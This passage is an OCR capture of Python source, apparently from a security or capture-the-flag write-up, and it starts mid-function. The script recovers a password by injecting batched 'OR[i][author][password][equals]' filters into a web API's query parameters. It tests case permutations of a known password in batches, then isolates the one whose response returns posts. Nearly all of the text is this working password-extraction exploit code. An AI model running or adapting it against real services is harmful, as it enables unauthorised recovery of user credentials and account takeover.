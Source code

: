 ```python
    try:
        response = requests.get(BASE_URL, params=params)
        if response.status_code == 200:
            data = response.json()
            print(data)
            return data.get("success") and data.get("posts")
    except Exception as e:
        print(f"\nError testing batch: {str(e)}")
        return False

def find_correct_in_batch(permutations):
    print("\nFound successful batch, testing individual passwords:")
    for i, perm in enumerate(permutations):
        params = {
            f"OR[{i}][author][password][equals]": perm
        }
        try:
            response = requests.get(BASE_URL, params=params)
            if response.status_code == 200:
                data = response.json()
                print(data)
                if data.get("success") and data.get("posts"):
                    return perm, i
        except Exception as e:
            print(f"Error testing {perm}: {str(e)}")
        print(f"Tested OR[{i}]: {perm}")
    return None, None

def find_password():
    print("Generating permutations...")
    permutations = generate_case_permutations(PASSWORD)
    total_perms = len(permutations)
    total_batches = (total_perms + BATCH_SIZE - 1) // BATCH_SIZE
    print(f"Testing {total_perms} permutations in {total_batches} batches of {BATCH_SIZE}")
    
    start_time = time.time()
    
    # Generate batch start positions in reverse order
    batch_starts = range(0, total_perms, BATCH_SIZE)
    batch_starts = list(batch_starts)[::-1]  # Reverse the range
    
    for batch_start in batch_starts:
        batch = permutations[batch_start:batch_start + BATCH_SIZE]
        current_batch = batch_start // BATCH_SIZE + 1
        elapsed = time.time() - start_time
        print(f"\rTesting batch {total_batches - current_batch + 1}/{total_batches} (perms {batch_start}-{min(batch_start+BATCH_SIZE, total_perms)}) using OR[0]-OR[{len(batch)-1}] - Elapsed: {elapsed:.1f}s", end="")
        
        if test_batch(batch):
            correct_password, index = find_correct_in_batch(batch)
            if correct_password:
                return correct_password, index, current_batch, batch_start
    
    return None, None, None, None

if __name__ == "__main__":
    print(f"Starting batch password search for: {PASSWORD}")
    letter_count = sum(1 for c in PASSWORD if c.isalpha())
    print(f"Number of letters: {letter_count}")
    print(f"Total permutations: {2 ** letter_count}")
    
    password, index, batch_num, batch_start = find_password()
```